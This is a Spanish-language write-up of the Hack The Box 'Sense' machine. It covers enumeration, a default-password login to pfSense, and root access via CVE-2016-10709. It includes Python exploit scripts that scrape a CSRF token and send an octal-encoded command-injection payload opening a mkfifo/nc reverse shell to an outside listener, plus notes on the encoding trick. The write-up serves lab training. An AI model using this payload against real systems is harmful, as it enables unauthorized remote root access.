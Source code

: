 # Sense-HTB
Resolucion de la maquina

## NMAP

```
sudo nmap -sSV -p80,443 10.129.76.69 -oN scan

```
 Tenemos el puerto 80 y el 443 abieto.

 ## FFUF

Aunque se necesito hacer esto recursivamente y se tuvo que usar el Dirbuster

```
ffuf -r -fc 404 -t 100  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.76.69/FUZZ.txt 

```

## Dirbuster

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/1a524956-8a6f-4612-93a9-ed001a85aa0e)


![image](https://github.com/gecr07/Sense-HTB/assets/63270579/6e8a2471-2a37-4733-b3d1-3568191cb567)


Para encontrar cosas admito que es mejor esta herramienta. En este caso necesitabamos encontrar un txt.

```
dirbuster -u https://10.129.76.69 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## searchsploit

```
searchsploit -x #examina
searchsploit -m # mueve

```

En el txt encontramos el usuario

```
####Support ticket###

Please create the following user


username: Rohit # cambiamos esta a minuscula rohit y como nos dice el defualt password ponermos el pfsense y listo!
password: company defaults
```

## RCE

Para buscar exploits aprendimos una cosa nueva poner entre comillas el cve por ejemplo: "CVE-2016-10709" (or Google will return others)

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/bd04aa38-a5ef-45c4-855a-cfa7e64179c2)

```
python3 43560.py --rhost 10.129.76.69 --lhost 10.10.14.10 --lport 4444 --username rohit --password pfsense

```

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/4b0b45f5-5fae-46ca-8f63-705d693ab69d)



Regresa una shell con privilegios de root no me dejo hacer ni full tty.

## Plus

Viendo un pcoo los writeups me di cuenta como funciona esta payload. por ejemplo para crear un payload mas o menos con esta tecnica.

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/514be4fb-928e-45e9-b484-04eccfc30656)


```
# Si pones lo decodifica auque sea base octal nose asi funciona 
printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'        
touch /tmp/0xdf

#Ahora si lo pasas a |sh|echo el echo solo mete un salto de linea.

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'|sh|echo

## Guarda los numeros octales decodificados en ese archivo

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146' | xargs echo -e > archivo_decodificado.txt

```

> https://0xdf.gitlab.io/2021/03/11/htb-sense.html


## Script 

De este script aprendi como poner break points (pdb.set_trace()) tambien usar el sleep y poner como una especie de nc a la escucha con pwn. Ojo en la payload escape los \ por eso van 2.

```python
#!/usr/bin/python3

#pip uninstall pyelftools -y
#pip install pyelftools==0.29

from pwn import * 

import requests
import pdb# break point
import signal#USas signal para capturar el CTRL+C
import sys
import urllib3, threading
import time# aqui se usa time.sleep
import re # explresiones regulares

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url="https://10.129.91.150/index.php"
rce_url="""https://10.129.91.150/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");echo $ampersand;rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc 10.10.14.94 443 >${HOME}tmp${HOME}f"""
lport=443
#proxy_url = "http://127.0.0.1:8080"


def executeCommand():
        s=requests.session()
        urllib3.disable_warnings()
        s.verify = False
        r = s.get(main_url)#,proxies=proxies)
        #pdb.set_trace()#break point
        #print(r.text)<
        
        csrfToken = re.findall(r'name=\'__csrf_magic\' value="(.*?)"', r.text)[0]
        
        #print(csrfToken)

        post_data = {'__csrf_magic': csrfToken,'usernamefld':'rohit','passwordfld':'pfsense','login':'Login'}
        r= s.post(main_url,data=post_data)#,proxies=proxies)
        #pdb.set_trace()
        r=s.get(rce_url)
        #pdb.set_trace()



if __name__== '__main__':
#       time.sleep(10)
        try:
                print("Hola Mundo")
                threading.Thread(target=executeCommand, args=()).start()
        except Exception as e:
                log.error(str(e))
        shell=listen(lport,timeout=20).wait_for_connection()
        shell.interactive() 
```

Para usar requests con un proxy lo hice asi

```python

#!/usr/bin/python3


import requests
import pdb# break point
import signal#USas signal para capturar el CTRL+C
import sys
import urllib3
import time# aqui se usa time.sleep
import re # explresiones regulares

main_url="https://10.129.91.150/index.php"
rce_url="""https://10.129.91.150/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");echo $ampersand;rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc 10.10.14.94 443 >${HOME}tmp${HOME}f"""

proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080'
}

s=requests.session()
urllib3.disable_warnings()
s.verify = False

r=s.get(main_url, proxies=proxies)
#pdb.set_trace()
csrfToken = re.findall(r'name=\'__csrf_magic\' value="(.*?)"', r.text)[0]
post_data = {'__csrf_magic': csrfToken,'usernamefld':'rohit','passwordfld':'pfsense','login':'Login'}
#print(post_data)
r= s.post(main_url,data=post_data,proxies=proxies)


try:
	r=s.get(rce_url,proxies=proxies)
except Exeption as e:
	log.error(str(e))

```

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/d9911dd6-89b8-4cb0-994e-4c11efc6003f)





































